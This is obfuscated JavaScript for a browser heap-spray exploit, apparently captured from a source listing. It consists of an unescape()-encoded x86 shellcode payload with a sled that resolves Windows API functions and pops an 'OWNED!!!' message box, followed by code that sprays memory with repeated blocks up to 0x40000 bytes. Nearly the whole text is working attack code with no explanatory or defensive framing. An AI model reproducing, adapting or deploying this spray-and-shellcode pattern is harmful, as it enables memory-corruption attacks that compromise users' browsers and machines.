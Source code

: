 var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA&gt;=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");

ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length

while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length&lt;fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;

UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);

while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA &lt; 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkru+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;

